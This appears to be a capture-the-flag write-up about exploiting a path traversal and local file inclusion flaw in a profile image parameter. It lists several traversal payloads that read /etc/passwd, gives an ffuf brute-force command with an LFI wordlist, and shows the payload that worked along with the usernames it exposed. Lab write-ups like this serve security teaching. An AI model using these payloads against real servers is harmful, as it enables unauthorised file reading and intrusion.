 # LFI + path traversal

From inspection of the network requests, I found a request that loads the profile image using a query parameter to specify the path to the file:

```http
GET /profile.php?img=profile.png HTTP/1.1
Host: xxx.xxx.xxx.xxx:50000
User-Agent: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

As found previously, the `profile.png` is present in the `/uploads` directory. Thus, it appears that the `img` query input will be used to search for a file in that directory.&#x20;

Possible path: `/var/www/html/uploads/profile.png`.

### Simple payloads

With knowledge of the current directory, I started off with simple payloads:

1. Path traversal
   * `../../../../etc/passwd`
   * `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`  (URL encoded)
   * `..//..//..//..//etc/passwd`
   * `%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2Fetc%2Fpasswd` (URL encoded)
2. Remote public resource
   * [https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf\_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s)



### Brute force discovery

I performed a brute force attack using `ffuf`, with the [wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt):

* Cookie: `-H "Cookie: PHPSESSID=xxxx"`&#x20;
* Filter out empty responses: `--fs 0`

```sh
$ ffuf -w /<wordlist> -u http://<target>:50000/profile.php?img=FUZZ -H "Cookie: PHPSESSID=xxxx" --fs 0
```

The payload: `....//....//....//....//....//....//....//....//....//etc/passwd` was found to work:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This provides us the following information:

1. Usernames:
   * `joshua`, `charles`
2. More importantly, the server is vulnerable to a Local File Inclusion (LFI) vulnerability!

### Exploring methods of exploitation

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

Following the guide in the link above, I explored a few methods to gain RCE on the system.

#### 1. SMTP (port 25)

#### 2. SSH (port 22)

#### Interesting discovery

With the `img` payload value of `#` (`/profile.php?img=#`), we are presented with a status **400** response:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
